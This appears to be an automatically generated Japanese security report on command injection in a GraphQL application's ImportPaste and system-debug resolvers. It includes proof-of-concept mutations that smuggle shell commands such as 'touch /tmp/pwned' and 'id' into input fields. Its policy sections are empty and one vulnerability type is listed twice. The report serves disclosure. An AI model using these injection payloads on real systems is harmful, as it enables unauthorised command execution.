 # PAR Security Analysis Report

![高信頼度](https://img.shields.io/badge/信頼度-高-red) **信頼度スコア: 90**

## 脆弱性タイプ

- `RCE`
- `SSRF`
- `AFO`
- `SSRF`
- `SQLI`
- `XSS`
- `IDOR`
- `LFI`

## PAR Policy Analysis

### Principals (データ源)


### Actions (セキュリティ制御)


### Resources (操作対象)


## 詳細解析

本アプリケーションでは、ユーザーがGraphQL経由で任意の文字列を送信し、それをそのままshellコマンドに連結して実行する箇所が複数存在します。具体的には、ImportPaste.mutateメソッド内で組み立てたURLをcurlコマンドとして実行する箇所と、resolve_system_debug内で未検証の引数をpsコマンドに渡す箇所です。いずれも入力値の適切なサニタイズやホワイトリストによる検証が行われておらず、メタ文字やセミコロンを用いたコマンドインジェクションが可能であるため、RCE（Remote Code Execution）の脆弱性が高確率で存在します。

## PoC（概念実証コード）

```text
# ImportPaste を悪用したPoC
mutation {
  importPaste(host:"example.com; touch /tmp/pwned; #", port:443, path:"/", scheme:"http") {
    result
  }
}

# resolve_system_debug を悪用したPoC
mutation {
  systemDebug(arg:";id; uname -a > /tmp/pwned;")
}
```

## 解析ノート

1. ImportPaste.mutateでf-stringを使いURLをcurlに連結  2. resolve_system_debugで未検証のargをpsコマンドに連結  3. いずれも入力バリデーション・ホワイトリストが不足  4. コマンドインジェクションにより任意コード実行可能

